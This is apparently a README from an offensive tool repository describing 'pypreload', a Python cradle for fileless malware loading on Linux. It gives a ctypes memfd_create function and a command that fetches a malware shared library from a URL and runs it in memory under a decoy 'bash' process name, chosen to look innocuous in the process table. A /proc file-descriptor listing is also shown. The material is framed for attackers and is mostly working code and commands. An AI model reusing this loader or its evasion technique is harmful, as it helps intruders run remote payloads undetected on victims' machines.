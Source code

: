 One of the issues hackers face is how do we bring the first cradle that starts the chain of malware loading? If the first cradle is a binary we need to drop it on disk, and so we may lose there. Why not then see if we can fetch our modules or even warehousing daemon (which will take over memory based payload storage and management) via memory driven mechanism itself. Maybe a Python script? Do you mean, fetch and execute a process *in memory*? 

Yes, that is what I mean. Python can do `memfd_create()`!  Well, over `ctypes` FFI interface.

Example:
`pypreload.py`

```python

def getMemFd(seed):

    #/usr/include/asm/unistd_32.h:#define __NR_memfd_create 356
    #/usr/include/asm/unistd_64.h:#define __NR_memfd_create 319
    if ctypes.sizeof(ctypes.c_voidp) == 4:
       NR_memfd_create = 356
    else:
       NR_memfd_create = 319

    modMemFd = ctypes.CDLL(None).syscall(NR_memfd_create,seed,1)
    if modMemFd == -1:
        print("Error in Memfd")
        return 0

    modMemPath = "/proc/" + str(os.getpid()) + "/fd/" + str(modMemFd)
    print("PID: ", os.getpid(), "Mem path: ", modMemPath)

    return modMemFd, modMemPath
```

#### 0x0:A Loading Malware Module with PyPreload

Example:

```sh
$ pypreload.py  -t so -l http://127.0.0.1:8080/libmctor.so -d bash -c /bin/ls
```
Here, we fetch our malware module into memory, and execute its functionality preloading a decoy command (bash), all in memory. 

> Note: `bash` here is the decoy for the process name we do not use any bash functionality. It just looks good in the process table :)


Consider execution context:

Internal OS file descriptors for pypreload fetcher cradle during runtime:

```sh
$ ls -l /proc/56417/fd
lrwx------ 1 root root 64 Feb 17 17:55 0 -> /dev/pts/6
lrwx------ 1 root root 64 Feb 17 17:55 1 -> /dev/pts/6
lrwx------ 1 root root 64 Feb 17 17:55 2 -> /dev/pts/6
lrwx------ 1 root root 64 Feb 17 17:54 3 -> '/memfd:K2J5S6N4 (deleted)'
lr-x------ 1 root root 64 Feb 17 17:55 4 -> /dev/urandom
lr-x------ 1 root root 64 Feb 17 17:55 5 -> 'pipe:[3478476]'
lr-x------ 1 root root 64 Feb 17 17:55 7 -> 'pipe:[3478477]'
```
